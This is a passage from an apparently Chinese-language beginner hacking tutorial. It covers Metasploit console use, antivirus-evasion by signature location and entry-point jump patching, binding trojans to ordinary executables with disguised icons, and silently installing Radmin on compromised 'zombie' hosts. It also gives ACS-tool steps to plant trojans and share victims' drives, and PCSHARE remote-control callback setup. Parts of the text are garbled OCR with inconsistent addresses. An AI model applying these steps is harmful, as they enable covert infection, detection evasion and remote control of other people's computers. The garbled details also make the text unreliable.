由于这里我们是在做演示，当然连接失败了，提示 `does not have a null sa account`，即不存在 SA 空口令，如图 59 所示。

```text
=| msf v3.0
+-- ==[ 176 exploits - 104 payloads
+-- ==[ 17 encoders - 5 nops
    ==[ 30 aux

[*] Target [redacted] 24.214 does not have a null sa account...
[*] Auxiliary module execution completed

msf auxiliary(mssql_login) >
```

第二项`payloads`，相当于本机设置，就是对工具本身的附加功能进行设置。我们搜索`VNC`，结果如图 60 所示。

我们选择第一项，对 `VNC` 作为注射进溢出对象的程序中的 TCP 进行设置，如图 61 所示。`VNCHOST` 是 `VNC` 的本机地址设置；`VNCPORT` 是本机 `VNC` 的端口设置；`LPORT` 是本地打开的端口设置。

| 参数 | 说明 | Required | 示例 |
| --- | --- | --- | --- |
| `VNCHOST` | The local host to use for the VNC proxy (type: address) | Required | 127.0.0.1 |
| `VNCPORT` | The local port to use for the VNC proxy (type: port) | Required | 5900 |
| `EXITFUNC` | Exit technique: seh, thread, process (type: raw) | Required | seh |
| `DLL` | The local path to the VNC DLL to upload (type: path) | Required | c:\Metasploit |
| `LPORT` | The local port (type: port) | Required | 4444 |
| `AUTOVNC` | Automatically launch VNC viewer if present (type: bool) | Required | true |

按以上的设置，当这个 `VNC` 被溢出注入到肉鸡上时，我们连接 4444 端口就相当于连接肉鸡的 `VNC` 开放的 5900，功能如同端口转发。

第四项`Consol`，是该工具的命令行界面，如图 62 所示，也就是说刚才所有的图形化操作都可以通过命令行来完成。运行后首先看到的是 `Metasploit` 欢迎界面，输入 ? 能看到帮助信息，里面有很多的命令，下面我将最重要的几个做简单解释。

```text
Welcome to the Metasploit Web Console!

        [Metasploit banner]

=] msf v3.0
+ -- --==[ 176 exploits - 104 payloads
+ -- --==[ 17 encoders - 5 nops
      =[ 30 aux

>> ?
```

图6.2

一般最常用的命令是`show`、`info`和`use`。由于程序集成了众多的`Exploit`，所以我们要先了解一下程序中到底有哪些溢出工具包。

输入`show`看看有哪些可用的`Exploit`程序。左侧显示的是溢出程序的程序名称，右侧是相应的简介，如图6.3所示。该程序支持大量的溢出程序包，并可以随时下载加载新的溢出程序包。

```text
>> show

Encoders
========

Name                         Description
----                         -----------
cmd/generic_sh               Generic Shell Variable Substitution
                             The "none" Encoder
                             ppc LongXOR Encoder
                             ppc LongXOR Encoder
                             SPARC Dword XOR Encoder
                             Alpha2 Alphanumeric Mixedcase Encoder
                             Alpha2 Alphanumeric Uppercase Encoder
                             Avoid UTF8/tolower
                             Call4 Dword XOR Encoder
```

图6.3

`Info`命令用来查看溢出程序的方法。比如要看`iis50_web_nt`的相关说明，就在命令行下输入`info iis50_web_nt`。这样可以方便地查找中所需的溢出。

程序是针对系统的，而`Available Options`的内容是我们下一步要用到的。在命令行下输入`show payloads`可以看到可用的`ShellCode`列表，左面是`ShellCode`的名字，右面是相应的简介。我们用`Info`命令来看一下`ShellCode`的具体信息，比如对`wineec`感兴趣，在命令行下输入：`Info wineec`，返回的结果中需要注意的是`Available Options`的内容。在`Available Options`中，可以看到`Required`和`Optional`字样，`Required`代表必选，`Optional`代表可选。使用`USE 溢出程序名`即可进入溢出程序所在目录。

```text
use test_pcap
msf auxiliary(test_pcap) >
```

图64

`show options`能查看溢出工具包要求指定的内容，如图65所示。

```text
>> show options

Module options:

Name        Current Setting   Description
----        ---------------   -----------
INTERFACE   eth0              yes        The name of interface

msf auxiliary(test_pcap) >
```

图65

使用`SET 参数名`的命令给溢出工具包要求的参数赋值，如图66所示。

```text
Module options:

Name        Current Setting   Description
----        ---------------   -----------
INTERFACE   eth0              yes        The name of interface

msf auxiliary(test_pcap) > set interface eth0

msf auxiliary(test_pcap) >
```

图66

在图66中，有一个设置名`interface`，可选`Current Setting`只有`eth0`，`required`是必选，最后的`Description`说明。一切设置完毕后输入`Exploit`开始溢出，如果成功得到`SHELL`。可见这个溢出工具的使用还是非常易懂的，主要的障碍来自英文。

## 如何安装虚拟机？

很多时候，我们需要两台计算机来调试或测试木马，一般为了测试就添加一台。这样产生了一种手段，在本机上模拟出一台或多台计算机同时运行两套系统，这些出来的计算机称为虚拟机。现在已经有现成的虚拟机可以让我们安装，这里以`Virtual PC`为例介绍。执行安装程序，一路“下一步”即可，如图67所示。


当来到图68所示的地方，需要输入注册名，大家可以方便地通过网络得到下面的选项选择是以身份安装程序，我们选择“All Users”。下一步是安装目录，点击“Change”可以修改，如图69所示。


特色，只需解压到`Virtual PC`的安装目录即可，如图70所示。


解压完毕之后运行`Virtual PC`虚拟机，先选择“Options”进行配置，如图71、图72所示。


在“language”（语言）菜单中选择中文“Simplified Chinese”，如图73所示。


“确定”以后退出配置菜单，重新运行`Virtual PC`，现在界面就变成中文了。选择“新建虚拟主机”进入向导菜单，一般选择第一项，如图74所示。

选择“新建虚拟硬盘”，是设置一个文件来模拟虚拟主机的硬盘，可以根据自己版本的配置来设定文件名和分配容量大小，如图76所示。


点击“完成”，一个新的虚拟机就建立好了，如图7.7所示。不过这个虚拟主机还是一台没有安装任何操作系统的“裸机”，接下来我们在上面安装操作系统。


把Windows安装盘放入光驱后启动虚拟机，虚拟机将从光盘开始引导系统安装，安装过程与实际安装系统并无区别，如图7.8、图7.9所示。`Virtual PC`在安装完系统后，有一点很重要，就是通过配置让虚拟机也能上网。很多初学者在这里就不知道该怎么办，请继续往下看……

现在按键盘右边的“Alt”键切换到宿主机，在虚拟机设置中点击“网络”，大家可以方便地通过网络得到下面的选项是以`NAT`，如图80所示。


否则文件夹太大，可能造成无法响应。


确认无误后点“运行”就开始生成了，我们可以看到在指定的保存目录下有许多的文件，如图 8.6 所示。


（4）用要做免杀的杀毒软件对生成的文件进行查杀删除，例如要对瑞星做免杀，就用瑞星杀毒生成文件。经过查杀之后，生成目录中仅剩下几个文件了，如图 8.7 所示。


（5）最后选择“操作”→“结果定位”，选择刚才生成文件的文件夹，然后点击“保存”按钮保存特征码的定位结果，如图 8.8 所示。


现在特征码被成功定位了，一般靠前的定位是特征码的可能性大一些。

## 10 怎么把木马和其它程序捆绑？

将木马与正常`exe`程序捆绑，只要传播时的思维策略巧妙，自然会有人中招。利用相关工具可以很轻易的实现文件之间的捆绑，下面以功能比较多的捆绑机“超级捆绑”为例，讲解一下操作过程，如图89 所示。


点击左侧的图标添加要捆绑的文件，如果选择错了，选中程序再点击（×）进行删除，最后点击下面的图标选择生成文件后保存的地址，如图90 所示。


接下来我们要对这个程序进行伪装，达到以假乱真的目的。点击下方的（设置）按钮，进入设置选单，先看“常规”选项，这里可以自由设置文件大小，这样就不怕文件捆绑后的体积变大，如图91 所示。


再看“版本”设置项，这一项的功能也非常独特，能修改文件的版本信息。很多木马存在修改捆绑后，版本信息会变，可以通过这里进行改变，使程序更具有迷惑性，如图92 所示。


在“运行”设置项可以设置捆绑后分解的目录和启动方式，如图93所示。其中有一个是会弹出`cmd`窗口的，可以在“窗口状态”中选“隐藏窗口”，以免弹出窗口被暴露。


都设置完成后点击“合并”，文件就生成了。但这还不够满意，如图94所示，为了让捆绑后的文件更具有欺骗性，需要把图标改变一下。

这款工具本身自带修改图标功能，点击下面的（图标）按钮，界面向下扩展出新的设置界面，如图95所示。

点击“图标文件”输入框右边的（浏览）按钮，选择一个程序，该程序的图标文件就出现在左边的窗口中。点击这个图标就设置成了我们生成的捆绑文件的图标，然后再点击第二次“合并”即可，如图96所示。


## 11 如何进行跳转修改法防杀

免杀技术是一项操作比较难、要克服的限制比较多、需要一定经验才能掌握的技术，但这并不妨碍我们由浅入深的学习这门技术。本节介绍给大家一种简单的免杀方法，不一定适用于所有程序的免杀，但是从中可以接触到用跳转法防止查杀。

介绍之前先说明一下，对一个程序的免杀有“文件免杀”和“内存免杀”，“文件免杀”的意思是这个程序没有运行时，用杀毒软件查杀不会反应；“内存免杀”的意思是当程序运行，进内存时，杀毒软件不会对其查杀。本节介绍的这种跳转法只对文件进行“文件免杀”，我们要用到的工具包括：


文件修改工具`peditor.exe`，如图98所示；查看程序参数进行修改的工具，比如入口点、基址等。PE调试工具`Ollydbg`，如图99所示；汇编工具。

第一步：运行`Ollydbg`，从“文件”→“打开”你要修改的程序，加载后主窗口中的光标会停留在第一行，如图100所示。


这一行会看到黄色光条，这就是修改时用到的一个参数——入口点。记录下此时入口点，地址是程序的第一竖列，此处是`00461C4`。将这个地址记录下。

第二步：接着我们关注第二竖列，在下拖滚动条寻找一个没有程序代码的空区域，空区域的特点是显示为`00`，如图101所示。注意：要是`00`才是空区域，两个`0`区域实际上是有代码。


第三步：在刚才选中的空区域的第二行开始逐行添加代码：

```asm
push ebp
mov ebp, esp
push edx
nop
pop edx
dec ecx
pop ebp
inc ecx
loop somewhere
```

添加的方法是在该行点击右键，选择“汇编”，在弹出的窗口中输入这两行代码，如图102所示。注意`loop somewhere`这一行`som`是个地址，就写在第一行`PUSH EBP`上面的地址。这里是跳转到了如图103所示的第二行地址`4023F6`。


然后把光标移动到`4023F6`这一行继续输入代码，如图104所示。

```asm
nop
jmp 往下两行的地址，如4023fa
```


`jmp`再往下跳的地址，例如`4023fc`，如图105所示。

`jmp`到原始`oep`（开始修改前我们记得该程序的入口点`00461C4`，这里完整输入`jmp 00461C4`即可）。

第四步：选中第三步中输入的那些代码（选中的操作就是按住鼠标左键不动，把要选的内容框在一起再松开），点鼠标右键依次选择“复制”→“到文件”，再选择一个保存地址，如图106所示。


第五步：用`peditor.exe`打开修改过的程序，此时看到入口点处显示的还是原来的`0041AC4`，下面基址是`00400000`，如图107所示。


这是因为`peditor`的地址表示方法是用基址加内存地址，也就是`00001AC4=00400000+00401AC4`，所以这里的地址我们只需改为`00002414`即可，如图108所示。


`00002414`加上基址`0040000`正好是上面第二步让记录的新入口点地址`046300`。修改好后点“刷新”就改变了程序的地址，至此跳转完成。测试正常，杀毒软件报警说明修改成功。

## 12 如何使用X-Scan扫描器？

介绍使用方法之前，先说说`X-Scan`扫描器与别的扫描器有什么不同。一般说的扫描工具，如`SuperScan`等，它们提供的信息单一，只能提供端口是否开放或被防火墙屏蔽等信息，进而得出对应端口是否启用。这样的结果对于综合判断是不够的，想检测一些漏洞无法做到。通常把只能进行端口扫描的工具称为扫描器，把能检测漏洞的工具称为扫描器。`X-Scan`这款工具除了端口扫描之外，还能检测相关漏洞，如各种弱、IIS漏洞、溢出漏洞等，如图109所示的主界面。


前面已经学习过进行入侵的方法，网上也有很多扫描器，其实`X-Scan`早就具有这个功能。运行`X-Scan`，在“设置”→“扫描”→“全局设置”→“扫描模块”中只选取“`NT-server`弱口”，如图110所示。

然后在“检测范围”中设好IP段，`X-Scan`的IP段是用`192.168.1.1-192.168.1.255`指定的，如图111所示。扫描完成后，`X-Scan`会以列表列出主机。


选取“`NT-server`”所在的列表中，还有NETBIOS信息、SNMP信息、TELNET弱口...等。

> 因为某个脚本的运行不是独立的，需要其它脚本对它的支持才能正常发挥作用。点击它就自动地选择了相关的脚本，这些脚本列表就会被加入到`custom.nsl`文件中。这是一个待检测脚本的列表，里面列出了刚才选中的所有要检测的项，它就好像是一个“菜单”，选中我们所点的“菜”，待会提交检测。

“CGI相关设置”是CGI漏洞扫描时需要的几种转换符号的检测，可以分别试试看有无结果。

“字典文件设置”里标明了所有检测所使用的字典，比如FTP用户字典、SMB字典，并支持自定义。双击右边的字典进行加载，如图117所示。


全部设置后点击主界面上的绿色按钮，如图118所示，工具就开始扫描了。

| 类型 | 端口/服务 | 解决方案 |
| :--- | :--- | :--- |
| `microsoft-ds` | `445/tcp` | 开放服务。`microsoft-ds`可能运行于该端口。`NESS-ID:10330` |
| `unknown` | `1027/tcp` | 开放服务。未知运行于该端口。`NESS-ID:10330` |

## 13 怎么让没有功能的软件也能使用代理

许多朋友用代理进行网络访问，很多程序整合了代理功能，比如QQ、IE等。使用代理只需在设置项进行代理设置（输入代理IP及端口）就可以，十分方便，如图120所示。


但是程序没有代理功能，特别是一些黑客工具。比如想用代理对国外站点进行检测，但是网站设置了国外IP，就需要代理。我们可以用第三方代理工具配合使用。相关的工具很多，大家可以在网上搜索好用的，这里使用的是`SockCap`。在使用之前我们要准备一个代理，可以用`SockCap`让程序在代理状态下。运行`SockCap`，点击“文件”→“设置”，在“SOCKS设置”里填入代理IP和端口。这里注意找的代理必须是SOCKS，因为SOCKS不支持HTTP协议。相应的设置处选中“SOCKS5版本”和“所有域名”，如图121所示。


如果你用的代理需要登录，选中“验证方式”框里的用户名/密码，这样登录之前会弹出窗口，要求输入账号和密码，如图122所示。

设置项中的“直接连接”可以指定那些IP不使用。例如在使用扫描工具对本地进行测试时，当然不需要代理，只需将本地IP加入“直接连接”框中，如图123所示。


“日志”标签项选择是否启用，一般都启用。如果在使用中出现问题，可以通过日志记录运行状况。设置完成后，点击“确定”即可。接下来是要指定哪些程序需要代理运行，选择“文件”→“新建”，或者直接单击程序上的图标，在弹出的选择框中选择`EXE`程序，如图124所示。注意不要选择桌面图标。


被添加进`EXE`程序就能使用代理上网了，如图125所示。我是将`d:\hacksole\SQLuru\NBSI`注入工具添加到了`SockCap`中，添加的程序会在主界面显示的框中建立图标。

以后先运行`SockCap`，然后在主界面下面的框内双击相应的程序，这时程序就使用代理访问网络了。


在本书的很多章节中我们学习了怎么使用代理，但有些关键的问题：代理从何处找？当然我们可以通过“代理中国”等网站找到大量IP，如图126所示。可问题是，大量的IP并非都是能用的，能使用的只占极少部分，免费的代理不太好找。

一个个手工验证实在是太慢了，我们需要用一种工具来进行一体化的操作，才能大大提高效率。这里有一搜索代理的工具“代理超人”介绍给大家。

运行“代理超人”后，直接选择“搜索”→“搜索代理”，软件就开始自动去捕捉代理。稍等一会之后，整个列表就列出了大量的IP地址，如图127、图128所示。


图126


图127


图128

虽然抓取的代理这么多，但大多是不能用的，我们可以使用工具来验证。选择“搜索”→“验证全部代理”，也可以用快捷键`Ctrl+C`来启动验证，如图129所示。


图129

这就是强制扫描，虽然时间会慢，但是不会因为目标主机被忽略而造成扫描结果缺失。“跳过没有检测到端口的主机”和“显示进度”最好，“使用判断操作系统”不要选，因为大部分机器都装有防火墙，这个成功率太低了，选中后浪费时间。如果发现服务是开放的，再选中该项进行详细探测。

经过验证，结果就出来了，第一竖列是代理IP，第二竖列是开放的代理端口，这两个是使用代理必须的参数。第三竖列是代理的类型，“超级匿名”是指用这个代理去上网，你所访问的地方根本不会发现你真正的IP，还以为你是从代理IP的地址去访问他的；“普通匿名”是指他知道你是在使用代理，但还是无法知道你真正的IP；“透明代理”是指虽然所有的数据也是通过代理来传送的，但很容易让对方知道你在用代理，并且追踪到你真正的IP；“无效代理”自然就是无法使用的，如图130所示。

| 代理地址 | 端口 | 匿名程度 | 所在地区 | 延迟 | 代理类型 |
| --- | --- | --- | --- | --- | --- |
| 64.66.192.62 | 80 | 透明代理 | 美国/加州 | 3 | HTTP代理 |
| 217.17.235.176 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 193.188.100.39 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 210.181.178.7 | 80 | 透明代理 | 韩国 | 2 | HTTP代理 |
| 209.129.192.50 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 63.149.98.48 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 63.149.98.52 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 190.12.77.98 | 8080 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 63.149.98.22 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 69.217.73.52 | 8080 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 82.160.198.68 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 77.69.150.155 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 201.54.148.7 | 3128 | 透明代理 | 美国中部/南部... | 4 | HTTP代理 |
| 63.149.98.223 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 208.69.147.43 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |
| 63.149.98.251 | 80 | 无效代理 | 验证失败跳过识别 | 9999 | HTTP代理 |

图130

第四竖列是代理所在的真实地址，第五竖列是连接时间，第六竖列是代理类型，如http或SOCK代理，这几项要根据需求择优使用。现在的结果还是太杂乱了，不方便我们选择对比。该工具很贴心的设计有整理功能，选择“搜索”→“整理代理”，也可以用`Ctrl+N`快捷键整理。现在再看列表，剩下的都是能用的代理了，大家可以进行对比选择，如图131所示。

| 代理地址 | 端口 | 匿名程度 | 所在地区 | 延迟 | 代理类型 |
| --- | --- | --- | --- | --- | --- |
| 72.55.189.57 | 80 | 普通匿名 | 无法识别地区 | 1 | HTTP代理 |
| 125.63.77.4 | 8080 | 普通匿名 | 欧洲 | 19 | HTTP代理 |
| 124.254.31.91 | 80 | 普通匿名 | 无法识别地区 | 35 | HTTP代理 |
| 83.211.3.44 | 80 | 透明代理 | 无法识别地区 | 1 | HTTP代理 |
| 203.162.163.78 | 80 | 透明代理 | 越南 | 1 | HTTP代理 |
| 207.232.27.12 | 8080 | 透明代理 | 美国/加拿大 | 1 | HTTP代理 |
| 210.181.178.7 | 80 | 透明代理 | 韩国 | 2 | HTTP代理 |
| 58.216.243.2 | 3128 | 透明代理 | 无法识别地区 | 2 | HTTP代理 |
| 203.162.163.80 | 80 | 透明代理 | 越南 | 2 | HTTP代理 |
| 201.57.139.2 | 3128 | 透明代理 | 美国中部/南部... | 2 | HTTP代理 |

图131

最后我们来看看该软件的设置，主要的是“高级”→“系统设置”中的“自定义代理列表”，如图132所示。如果我们发现了新的地址，填入这里，可以增加工具搜索的结果。

自定义代理列表（带有`xxx.xxx.xxx:xxx`格式）放在以下框内：

- `http://www-proxy.com/list/index.php?list=5`
- `http://q.cnvip.net/proxy.php`
- `http://infoonline.net/index/proxy.aspx`

图132

## 如何使用Radmin

`Radmin`最初并不是黑客软件，而是正常的控制软件，所以很多杀毒软件不会把它当木马查掉。由于它本身就是用来监控桌面的工具，它的桌面功能比一般的远程木马要流畅。`Radmin`和木马一样，在使用前要生成服务端，在工具里带有生成器，如图133所示，双击即可运行程序。


这里提醒大家，不同的`Radmin`版本，服务端生成器的界面不同，软件运行后的界面如图134所示。


要修改的设置有项：“设置密码”是指连接时的密码，最好改强一点，不要用弱口令，防止被猜测。现在已经破解工具了；再看“设置”中的选项，`Radmin`端口号默认是`4899`，可以修改成别的端口，如图135所示；穿透防火墙设置可以根据目标防火墙进行选择。


以上是该工具在图形界面的设置，下面我们主要讲命令行下Radmin的安装。安装Radmin要把`r_server.exe`和相关的`admin.dll`文件上传到肉鸡上，如图136所示，然后执行`r_server.exe /port:3333 /pass:123456`运行程序。


Port后的3333是端口，pass后的123456是密码。另外在安装时，有一个参数是在执行每一步时必须要加的，那就是`/silence`。它的作用是不跳出“error”或“ok”等信息，防止被发现。

需要将Radmin安装为服务，使用的命令是`r_server.exe /installservice`，执行`r_server.exe /uninstallservice`则是卸载服务。这样我们最后输入`r_server.exe /port:3333 /pass:123456 /silence /install`就可以将Radmin在命令行下进行安装。

现在Radmin已经安装成功了，我们可以用客户端进行连接，选择“连接远端”——“新建连接”，如图137所示。


新建连接的设置很简单，填入目标IP和端口，再给这个新连接取个名字就可以了，如图138所示。

建立成功后会在工具中看到新建连接的图标，请注意光标不要直接点击它选入控制，而是在上面按鼠标右键，看看有哪些可选的控制模式，如图139所示。


这里给大家介绍一下主要控制功能的意义：

- **完全控制**：当出现控制的窗口之后，我们在上面移动鼠标，对方鼠标也会被控制，这和QQ远程协助一样，能让我们直接操作。
- **屏幕监视**：只能不能操作。
- **远程TELNET**：用TELNET的方式连接到鸡。
- **文件管理**：像共享文件夹那样方便上传下载，如图140所示。


后就会进入对方桌面，如图141所示。


以上是我们在客户端上通过模式连接到服务端，下面有命令行操作。连接服务端使用客户端`radmin.exe`，标准的命令是`radmin.exe /connect:192.168.1.2:3333`，如图142所示，执行后弹出的命令行界面。


Connect后的IP就是连接；4000表示端口；TELNET表示用TELNET的方式来连接。另外使用`/fullscreen`可以指定以全屏运行。还有一个重要的参数是`/through:xxxxx:nnnn`，这个表示通过其它服务转接，可以理解为代理模式。但是注意这里的代理服务器只能另一台安装过Radmin的主机。例如执行命令：`radmin.exe /connect:10.0.0.100:4000 /telnet /through:10.0.0.101:4001`，表示通过IP为10.0.0.101的代理服务器4001端口连接到10.0.0.100的4000端口，使得Radmin具有代理跳板的功能。

## 如何使用ACS攻击工具

ACS攻击器是很适合初学者使用的入门级黑客工具，整合了几种常见的漏洞方式，不需要使用复杂的命令就可以实现连接到上传文件并执行，初学者实践、培养兴趣的好工具。

我们先用它来查找肉鸡，利用“肉鸡查找”功能可以查找一个网段中密集存在同一网段的Win2000、WinXP等操作系统，并且可以自动识别系统版本。

点击工具中的“肉鸡查找”标签，然后在“IP”栏输入要搜索的IP段，IP最好选择本地的IP。假设本地IP是218.76.40.155，就输入218.76.40.1到218.76.40.255，然后点击“开始扫描”，如图143所示。如果IP段内存在简单的肉鸡，稍等片刻就会在下面窗口中列出。

对方的电脑上了，如图144所示，这样就可以像本地一样任意操作，还可以进一步上传木马，得到对方的桌面权限。


点击“种植木马”按钮进入窗口，点击“本地文件”右侧的按钮导入我们事先做好的木马（如灰鸽子、PCSHARE等等），然后点击“开始”按钮，稍等一会就会返回成功与否的信息，如图145所示。


如果成功了，那么对方就成为你的肉鸡了！如果不成功，请对该电脑换另一个用户试试，或者对其电脑进行种植木马的操作。如果不能上传木马，我们还可以把对方的目录共享到本地浏览文件。在“启动命令”栏选择或输入控制命令，例如输入：`net share abc=c:\`（将对方的C盘共享为“abc”）和`net start telnet`（启动对方机器的Telnet服务），然后“开始”按钮，成功后对方电脑已经共享目录abc。

## 第六章 恶意软件实战技巧

如图146所示，你就看到已经开启了目录的IP地址。双击IP前的“+”将将其目录打开，然后点击右侧的“映射”按钮。运气好的，映射就会成功了。例如对于C盘镜像到我的I盘，点击右侧的“打开”按钮可以看到一个I盘，这里其实是整合了Windows在“网络顶部”的查找功能。

| 映射状态 | 命名为IP | 路径查看 | 共享状态 | 进程 |
| --- | --- | --- | --- | --- |
| 192.168.1.1 | 192.168.1.255 | 开启 | | |


ACS工具用来入侵，还有许多功能我们可以做个人的防护，比如查看网络状态，使用“网络状态”功能就能知道打开了什么端口。点击工具上的“网络状态”按钮，在147窗口中看到详细的开放情况与本机的IP地址、端口。

| 协议 | 本地IP | 本机端口 | 状态 | 命名为IP | 路径查看 |
| --- | --- | --- | --- | --- | --- |
| TCP | 80 | 0.0.0 | | | |
| TCP | 135 | 0.0.0 | | | |
| TCP | 143 | 0.0.0 | | | |
| TCP | 445 | 0.0.0 | | | |
| TCP | 3389 | 0.0.0 | | | |
| TCP | 3697 | 0.0.0 | | | |
| TCP | 139 | 0.0.0 | | | |
| TCP | 80 | 222.168.184.72 | 47474 | 已建立 | |
| TCP | 1538 | 121.200.6.8 | 80 | 等待 | |
| TCP | 1540 | 222.238.223 | 80 | 关闭 | |


对端口的作用还不太了解，可以点击右下角的“端口列表”按钮，这里端口（1到65000）的作用相同，如图148所示。

| 端口 | 说明 |
| --- | --- |
| 1 | 远程注册的打印服务多路复用 |
| 2 | `compress.exe` 管理程序 |
| 3 | |
| 4 | 网络业务服务 |
| 5 | |
| 6 | (本地用户) |
| 7 | 在线用户 |
| 8 | 的输出端口 |
| 9 | |
| 10 | |
| 11 | |
| 12 | |
| 13 | |
| 14 | |
| 15 | |
| 16 | |
| 17 | |
| 18 | |
| 19 | |
| 20 | |
| 21 | 文件共享（SMB端口） |
| 22 | 终端连接（控制） |


使用“检索查询”功能可以看到自己电脑上正在运行的程序，对于查找木马有一定的帮助！看到不正常的进程尽快通过“删除”按钮删除，并根据提示的文件路径，将硬盘上对应的文件和目录彻底删除。ACS整合了端口扫描功能，结果还是比较准确的，如图150所示。

## 第六章 黑客技巧

除了介绍的这些以外，还有“路由查”、“网卡MAC查看”、“PING”、“域名IP转换”等零八糟的功能，初次学习黑客的朋友们着急下载一下，体会一下这类工具的作用吧。


149


## 17 我不会使用PCSHARE，能教我吗？

PCSHARE是一与友子斧几乎一样的远程控制工具，它生成的服务端比较小，使用方法与友子斧基本一样。运行后，看到有几个按钮，其中“刷新IP”、“参数设置”、“创建客户端”等字是亮的，对于新手来说，如图151所示。


151

先点击“创建客户端”，在“通信连接相关参数（可以名为IP或地址）”这里是填写域名。比如你有一个花花的服务器域名 hack.ipc.com，你可以用上线名，如图152所示。端口就是默认的，这样一个服务器，安装到你的肉上。


152

如果你没有域名，就需要留出一个空间来作为你的URL地址。在刚才的“创建客户端”的设置框中，点击“URL”选择，这里的地址就是你的空间上放置IP的文件地址。假设你的地址是test.nohack.com，那么在空间下有一个名为`ip.txt`的文件用于放置IP地址，那么就放在这里：`http://test.nohack.com/ip.txt`，第154所示。


## 第六章 黑客进阶

hack.ipc.cn。由于你已经把这个域名和你的IP做了映射，就等于连接了IP，就会显示肉鸽已经上线了，第153所示。


## 第六章 黑客工具技巧

一般是在`WWWROOT`目录下，如果是目录名则可相应的修改。最后将你的空间的用户名和密码填写，如图156所示。


点击“刷新IP”，如果成功，说明已经使用了。此时肉鸡上PCSHARE的工作就是访问`http://test.nohack.im/ip.txt`证明我们正在运行脚本，并连接这个IP，于是肉鸡上线的。肉鸡上线后，刚才那些被激活的按钮现在显示在状态栏了，我们可以在肉鸡上进行操作。“文件管理”上传/下载、“刷新屏幕”能看到肉鸡当前首页、“键盘监控”能记录下载方的按键，“进程管理”能杀死掉的进程，“注册管理”可以对注册进行各种操作，如图157所示，总的服务器已经是自己的了，可以无所不能。


## 深入解析黑客教程内含

18 本书许多章节都用到了WEB空间，作为一个黑客，除了插扫、注入等一般意义上的黑客工具，WEB空间工具也是必不可少的。在有空间后，对空间的内容进行管理是一项任务。

我们利用空间的主要方式在于使用隧道IP地址，调整启动程序、下载工具，这些都需要把这些程序上传到空间后运行。

很多服务器都有了用户管理功能，可以让我们在登录时不需要其他工具的辅助，通过浏览器可以上传文件，如图158所示。这本身是不错的功能，能让我在任何一台电脑上下载文件，就少了很多麻烦。如果是在自己的计算机上对空间内容进行管理，就显得太方便了。

FTP上传下载最方便的方法目前推荐FLASHXP，由于我们先选择了断点的FTP上传传输。运行FLASHXP，选择“站点”-“站点管理器”，把我们的空间添加到程序列表中，如图159所示。


在弹窗口左侧的“FLASHXP SITE”就是站点列表，由于我们还没有添加站点，所以这里是空的，如图160所示。


点击下面的“新建站点”按钮，如图161所示，在弹出的窗口新建站点，这里输入NOHACK。这时再看左侧的站点列表，一个名为Nohack的站点就添加了，如图162所示。


但是现在这个站点只是挂名而已，还没有设置IP、账号、密码等。用鼠标双点击这个站点，在右侧的窗口里输入我们空间的IP地址、账号和密码，如图163所示。需要注意的是 IP 地址这里，实际上填入域名也是可以的，如图164 所示。

| 常规 | 选项 | 传输 | 高级 | 登录 | 统计 |
| --- | --- | --- | --- | --- | --- |
| 站点名称(V) | nohack | | | | |
| IP 地址 | 222. 182. 136 | | 端口 21 | | |
| 用户名(V) | nohack | | | 登录(L) | |
| 密码(V) | ******** | | | | |

163

| 常规 | 选项 | 传输 | 高级 | 登录 | 统计 |
| --- | --- | --- | --- | --- | --- |
| 站点名称(V) | nohack | | | | |
| IP 地址 | user115.ftp.nohack.com | | 端口 21 | | |
| 用户名(V) | | | | 登录(L) | |
| 密码(V) | ******** | | | | |

164

填好后下面的“应用”。现在在左侧的站点名称“Nohack”就会连接我们的站点，也可以点击程序上面的黄色图标，在弹出的菜单中选择站点名称 nohack 进行连接，如图165所示。


165

程序开始连接我们的空间，等待片刻后就会在左侧的目录中出现了我们文件夹的内容。现在的虚拟机主机文件内容，`WWWROOT` 是 WEB 页面，例如放在一个文件夹内的内容都能通过 URL 访问，如图166 所示。双 `WWWROOT` 文件夹，其中的文件继续在窗口中列出。由于此软件可以上传和下载，那是非常简单的。我们连接到远程空间，FLASHXP的操作界面左侧是本地界面，右侧是远程空间，如图167。

| 名称 | 大小 | 修改时间 | 属性 |
| --- | --- | --- | --- |
| `databases` | | 2007-08-25 16:12 | D |
| `logfiles` | | 2007-08-25 16:12 | D |
| `others` | | 2007-08-25 16:12 | D |
| `wwwroot` | | 2007-08-25 12:25 | D |


166

在左侧选择要上传的目录或文件，然后在本地用鼠标拖到右边，就开始上传了。连接远程空间的下载到本地也是一样的，在右侧选中文件夹，再拖到左边，如图168所示。


168

除了 FTP 的下载功能，FLASHXP 还有一个非常方便的功能——在线编辑。如果我们想要对空间里的某一个文件进行编辑，就可以把文件下载到本地进行编辑，编辑完成后再上传到远程空间。这比较麻烦，在线编辑完全可以直接远程进行。例如要在空间里的 .txt 文件进行编辑，右键点击该文件，在弹出的菜单中选择编辑，如图169所示。


169

这时从空间里打开文件进行编辑，我们在文件名后面加 8000，然后保存文件，如图170所示。在弹出对话框“准备好编辑的文件”时点击“确定”，我们编辑的文件立刻上传到了空间，相当方便，如图171所示。


171

最后有一点提醒大家，在程序的左右窗口中，哪边是本地文件，哪边是远程空间，这可以通过左上角的刷新按钮进行调整，如图172 所示，千万不要困扰自己的程序和本地调试不一样。

```
root# 切换到本地调试
```

图172

## 19 常用端口连接技巧

在客户活动中，常常会遇到这种情形：打开了目标服务器的远程服务 389 端口和 TELNET 服务 23 端口或别的端口，想去连接，却是总连接不上，如图173 所示。

```
telnet 127.0.0.1 23 ...不能打开目标机器的连接，在端口 23 端口：连接失败
```

图173


